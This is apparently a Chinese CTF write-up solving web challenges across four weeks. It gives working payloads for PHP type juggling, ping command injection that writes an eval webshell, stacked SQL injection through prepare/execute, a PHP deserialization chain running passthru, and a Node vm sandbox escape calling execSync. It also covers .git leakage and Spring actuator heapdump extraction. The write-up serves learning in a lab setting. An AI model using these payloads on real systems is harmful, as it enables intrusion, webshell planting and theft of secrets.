

## WEEK1

### signin

进去只有一个页面


源代码里没有东西，扫描后台也没有东西

放进火狐浏览器，F12进入调试器

在源码里发现flag


### baby\_php

源码如下

```
 <?php
// flag in flag.php
highlight_file(__FILE__);

if (isset($_GET['a']) && isset($_GET['b']) && isset($_POST['c']) && isset($_COOKIE['name'])) {
    $a = $_GET['a'];
    $b = $_GET['b'];
    $c = $_POST['c'];
    $name = $_COOKIE['name'];

    if ($a != $b && md5($a) == md5($b)) {
        if (!is_numeric($c) && $c != 1024 && intval($c) == 1024) {
            include($name.'.php');
        }
    }
}
?> 
```

首先是a和b的MD5弱比较

这个可以用数组绕过，也可以用字符串碰撞

这里可以使用这两个字符串：**QNKCDZO** 、 **240610708**

然后就是变量c，首先要不能是数字

在尾部添加%00或者%20等url编码字符会让is\_numeric函数判断为非数值，在尾部添加非数字也可以达到这种效果，数组绕过也是可以的

然后就是变量值不能等于1024，intval值要等于1024

intval函数一般的绕过思路👇

- 当某个数字被过滤时，可以使用它的 8进制/16进制来绕过；比如过滤10，就用012（八进制）或0xA（十六进制）。

- 对于弱比较（a==b），可以给a、b两个参数传入空数组，使弱比较为true。

- 某个数字被过滤时，可以给它增加小数位来绕过；比如过滤3，就用3.1。

- 当某个数字被过滤时，可以给它拼接字符串来绕过；比如过滤3，就用3ab。（GET请求的参数会自动拼接单引号）

- 当某个数字被过滤时，可以两次取反来绕过；比如过滤10，就用~~10。

- 当某个数字被过滤时，可以使用算数运算符绕过；比如过滤10，就用 5+5 或 2\*5。

这里前后观察一下，就能得出只要c为 **1024.1**123 这样，带个小数部分就行了

由于flag在flag.php里，include里又有字符串的连接，这里抓个包添加一个cookie头就行了


不过这样并没有显示flag，或许是flag.php文件里并没有highlight高亮文件

但是通过include文件包含，可以使用php伪协议读取文件内容

这里只需要使用filter伪协议就能读出文件源码了


拿去base64解密一下就能拿到flag

### hello\_http

第一层：

```
Error: The GET parameter query must be ctf
```

传入一个GET变量query，值为ctf

第二层：

```
Error: The POST form action must be getflag
```

传入一个POST变量action，值为getflag

第三层：

```
Error: Your are not admin
```


修改Cookie的role为admin即可

第四层：

```
Error: Only allow local IP
```

用burpsuite抓包，添加X-Forwarded-For头，值为127.0.0.1

第五层：

Error: You are not using `HarmonyOS Browser`

修改User-Agent字段为HarmonyOS Browser（中间有个空格

第六层：

```
Error: Only allow access from ys.mihoyo.com
```

添加Referer头，值为ys.mihoyo.com，到此结束拿到flag

最终如图


### repo\_leak

一个博客网站，源码里没什么东西，直接开始扫后台


扫出来DS文件

.DS\_Store是Mac下Finder用来保存如何展示 文件/文件夹 的数据文件，每个文件夹下对应一个。

如果开发/设计人员将.DS\_Store上传部署到线上环境，可能造成文件目录结构泄漏，特别是备份文件、源代码文件。

这个文件在windows下是无法查看的，会产生乱码

要放到kali或者其他linux系统下才能查看

但是并没有用，这里考的不是这个


给了提示，要看git版本，flag应该在之前的某个版本中

这里要用到githacker这个工具才行，githack在这里用不了

```
#安装githacker
python -m pip install -i https://pypi.org/simple/ GitHacker #python3环境下

#运行
githacker --url http://120.27.148.152:50013/.git/ --output-folder 随便起一个目录
```

完成之后cd进去



能看到有flag，切换一下版本


然后进入文件夹看看，打开index.html的源码

查找一下flag


### ping


看起来是一个命令执行

在源码里发现hint


代码如下

```
 <?php
function sanitize($s) {
    $s = str_replace(';', '', $s);
    $s = str_replace(' ', '', $s);
    $s = str_replace('/', '', $s);
    $s = str_replace('flag', '', $s);
    return $s;
}
if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
if (!isset($_POST['ip'])) {
    die('No IP Address');
}
$ip = $_POST['ip'];
$ip = sanitize($ip);
if (!preg_match('/((\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])/', $ip)) {
    die('Invalid IP Address');
}
system('ping -c 4 '.$ip. ' 2>&1');
?> 
```

能看到当前目录的一些东西


不过反斜杠被过滤了，这里无法使用

空格也被过滤了，不过可以用$IFS、${IFS}等代替

尖括号没有被过滤，我们就可以写入php文件

可以配合base64编码来写入文件

```
ip=127.0.0.1|echo$IFS"PD9waHAgZXZhbCgkX1BPU1RbYV0pOz8+"|base64${IFS}-d${IFS}>a.php

#<?php eval($_POST[a]);?>
```

然后访问a.php


就能拿到flag


## WEEK2

### 前言

由于week2的题难度要比week1的大一些

出题人也是不断的给hint

### ez\_sqli

hint如下👇

```
Hint 1: Docker 环境: mysql:5.7
Hint 2: 堆叠注入 (cursor.execute() 能够执行多条 SQL 语句)
Hint 3: 关键词: set prepare executeHint 4: flag 位置: select flag from flag
Hint 5: 请不要使用 sqlmap 等自动化工具 跑不出来的
Hint 6: 尝试通过 set 设置一个变量 其内容为待执行的 SQL 语句 然后使用 prepare + execute 来执行该 SQL 语句 (你可能需要通过某些方法对 SQL 语句进行编码或者拼接以绕过关键词检测)
```

然后题目源码如下

```
from flask import Flask, render_template, request
import MySQLdb
import re

blacklist = ['select', 'update', 'insert', 'delete', 'database', 'table', 'column', 'alter', 'create', 'drop', 'and', 'or', 'xor', 'if', 'else', 'then', 'where']

conn = MySQLdb.connect(host='db', port=3306, user='root', passwd='root', db='ctf')

app = Flask(__name__)

@app.route('/')
def index():
    field = request.args.get('order', 'id')
    field = re.sub(r'\s+', '', field)

    for s in blacklist:
        if s.lower() in field.lower():
            return s + ' are banned'

    if not re.match(r"id|name|email", field):
        field = 'id'

    with conn.cursor() as cursor:
        cursor.execute('SELECT * FROM userinfo order by %s' % field)
        res = cursor.fetchall()

    return render_template('index.html', res=res)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=True)
```

可以看到过滤了select、table、等，还去掉了空格

结合出题人的hint，可知要使用预处理的方法来执行sql命令

这两个博客讲的很详细：[SQL注入进阶之路-针对堆叠注入的研究 - mi2ac1e - 博客园 (cnblogs.com)](https://www.cnblogs.com/tysec/p/15161004.html)

[记录mysql 存储过程中通过使用PREPARE、EXECUTE 预处理语句实现执行动态SQL语句 - rhyswang - 博客园 (cnblogs.com)](https://www.cnblogs.com/camefor/p/15740220.html)

总的来说预处理的步骤👇

```
#1  设置用户变量的值
set @code= 。。。。  ;

#2  预处理,将用户变量code的值赋给p
prepare p from @code ;

#3  执行预处理后的语句
execute p;
```

这里由于有黑名单，我们就只有通过concat来进行字符串的拼接

空格有/\*\*/来绕过

所以最后的payload👇

```
set/**/@pr1=concat('selec','t/**/fla','g/**/from/**/fl','ag');
prepare/**/p/**/from/**/@pr1;EXECUTE /**/p;
```

### ez\_upload

hint👇

```
Hint 1: Docker 环境: php:7.4-apache

Hint 2: 代码中的 imagecreatefromXXX 和 imageXXX 函数来源于 PHP 的 GD 库

Hint 3: GD 库会对图片进行二次渲染

Hint 4: 如果上传正确的图片马后出现报错请将 BurpSuite 设置中的 Character Sets 改回 Recognize automatically based on message headers (例如 https://blog.csdn.net/weixin_44937683/article/details/127516562 这篇文章就是个错误示范 需要把 Character Sets 改回去)

Hint 5: 你需要在网上找到一些针对 gif/png/jpg 格式的二次渲染绕过脚本 另外注意代码并没有限制上传文件的后缀
```

那就是经典的二次渲染了

二次渲染会修改图片源码中的部分代码，只先上传再下载图片，与原图片的代码对比，在没有发生变化的部分写入php代码即可。

这种二次渲染的题，最好还是用gif的图片来做，比较稳定，其他的jpg、png很容易失败，下面这张图就是我用的，源码比较短。


可以看到上传前👇


下面是上传后的，我在不变的区域加入了php代码


由于没有限制后缀，只需要抓包把content-type修改为image/gif，然后文件名修改为1.php即可上传


### ez\_unserialize

hint👇

```
Hint 1: Docker 环境: php:7.4-apache

Hint 2: 你可以通过 PHP 的引用来绕过 __wakeup (https://www.php.net/manual/zh/language.references.php)

Hint 3: 尝试将 Cache 的 expired 字段的引用赋值给另外一个变量

Hint 4: 调用链: DataObject.__destruct() -> Storage.__set() -> Cache.expired() -> Helper.__call()

Hint 5: 尝试向 DataObject 中放入 cache1 和 cache2 并使得 $storage->store = &$cache2->expired 最终通过调用 cache2 的 expired 方法实现 RCE
```

由于源代码比较长，出题人给了很多hint

源代码👇

```
<?php

show_source(__FILE__);

class Cache {
    public $key;
    public $value;
    public $expired;
    public $helper;

    public function __construct($key, $value, $helper) {
        $this->key = $key;
        $this->value = $value;
        $this->helper = $helper;

        $this->expired = False;
    }

    public function __wakeup() {
        $this->expired = False;
    }

    public function expired() {
        if ($this->expired) {
            $this->helper->clean($this->key);
            return True;
        } else {
            return False;
        }
    }
}

class Storage {
    public $store;

    public function __construct() {
        $this->store = array();
    }
    
    public function __set($name, $value) {
        if (!$this->store) {
            $this->store = array();
        }

        if (!$value->expired()) {
            $this->store[$name] = $value;
        }
    }

    public function __get($name) {
        return $this->data[$name];
    }
}

class Helper {
    public $funcs;

    public function __construct($funcs) {
        $this->funcs = $funcs;
    }

    public function __call($name, $args) {
        $this->funcs[$name](...$args);
    }
}

class DataObject {
    public $storage;
    public $data;

    public function __destruct() {
        foreach ($this->data as $key => $value) {
            $this->storage->$key = $value;
        }
    }
}

if (isset($_GET['u'])) {
    unserialize($_GET['u']);
}
?>
```

在hint里面已经给出pop链条了，这里就不再分析了，就只是对几个函数的利用讲一下

首先是destruct函数里面的foreach，是遍历一个数组，然后数组里面应该是以键值对的形式存储

然后进入Storage类里的set魔术方法，里面有执行value参数的expired函数，那么这个value参数就应该是cache2

cache类里有wakeup方法，可以通过其他属性引用expired的地址，然后修改该属性的值即可绕过

最后注意：$this->helper->clean($this->key); 这个跳入Helper类里的时候传入的name是clean，args是key，需要在helper类里的funcs也设置为一个数组，存有键名为clean的键值对

最终生成paylaod👇

```
$cache1=new Cache();
$cache2=new Cache();
$storage=new Storage();
$helper=new Helper();
$dataobject=new DataObject();

$dataobject->storage=$storage;
$storage->store=&$cache2->expired;
$dataobject->data=['1'=>$cache1,'2'=>$cache2];
$helper->funcs=['clean'=>'passthru'];
$cache2->value=&$cache2->expired;
$cache2->value=True;

$cache2->helper=$helper;
$cache2->key='cat /proc/self/environ';

echo serialize($dataobject).PHP_EOL;
```

flag在环境变量里

### ez\_sandbox

hint👇

```
Hint 1: 原型链污染 (除了 __proto__ 还有其它方法)
Hint 2: vm 沙箱逃逸 (arguments.callee.caller)
Hint 3: 在沙箱内可以通过 throw 来抛出一个对象 这个对象会被沙箱外的 catch 语句捕获 然后会访问它的 message 属性 (即 e.message)
Hint 4: 通过 JavaScript 的 Proxy 类或对象的 __defineGetter__ 方法来设置一个 getter 使得在沙箱外访问 e 的 message 属性 (即 e.message) 时能够调用某个函数
Hint 5: 通过 constructor.prototype 绕过 __proto__ 进行原型链污染
Hint 6: https://xz.aliyun.com/t/11859
```

一个js框架的界面，在源码中可以看到proto是被过滤掉了


不过这道题使用污染的地方不在register。。。在这里困了好久

应该是先去注册一个用户，然后在login界面进行原型链污染，由于proto被ban了，那就只有使用constructor来进行污染，要先注册一个test用户，然后再在login界面抓包上传下面的json部分

```
{
"username": "test",
"password": "test",
"constructor": {
"prototype": {
"test": "123"
 }
 }
}
```

再用污染的用户密码登录进去，就能以admin的身份进去

源代码里过滤掉了常见的函数，但是js是可以通过字符串拼接的方式来获得函数名

官方wp👇

```
// method 1
throw new Proxy({}, { // Proxy 对象⽤于创建对某⼀对象的代理, 以实现属性和⽅法的拦截
get: function(){ // 访问这个对象的任意⼀个属性都会执⾏ get 指向的函数
const c = arguments.callee.caller
const p = (c['constru'+'ctor']['constru'+'ctor']('return pro'+'cess'))()
return p['mainM'+'odule']['requi'+'re']('child_pr'+'ocess')['ex'+'ecSync']('cat
/flag').toString();
 }
})
// method 2
let obj = {} // 针对该对象的 message 属性定义⼀个 getter, 当访问 obj.message 时会调⽤对应的函数
obj.__defineGetter__('message', function(){
const c = arguments.callee.caller
const p = (c['constru'+'ctor']['constru'+'ctor']('return pro'+'cess'))()
return p['mainM'+'odule']['requi'+'re']('child_pr'+'ocess')['ex'+'ecSync']('cat
/flag').toString();
})
throw obj
```

## WEEK3

### GoShop

```
Hint 1: 注意 int64 类型的范围 两个 int 64 进行计算的时候会不会出现什么问题?

Hint 2: 整数溢出
```

int64的最大值：9223372036854775807


先造成整数溢出，买了很多个橘子，然后把他们卖掉再买flag就行了


## WEEK4

### spring

一个spring框架的网站，进入url后给出提示


经过搜索了解到这是一个spring的未授权访问漏洞，可以修改url后面的路由来访问

首先访问/actuator/env 读取环境信息


可以看到flag在password里，但是被加密了，是看不到的，然后访问/actuator/heapdump路由

heapdump是一个内存文件，将其下载下来，正常情况是无法分析的，需要下载一个Eclipse Memory Analyzer分析java的软件才能看到


在app.password对应的value部分找到flag

_**相关链接**_：[springboot actuator未授权访问 - 安全课-信仰 - 博客园 (cnblogs.com)](https://www.cnblogs.com/anquankeyinyang/p/15055422.html)

[【精选】Springboot信息泄露以及heapdump的利用\_heapdump漏洞\_李白你好的博客-CSDN博客](https://blog.csdn.net/weixin_44309905/article/details/127279561)
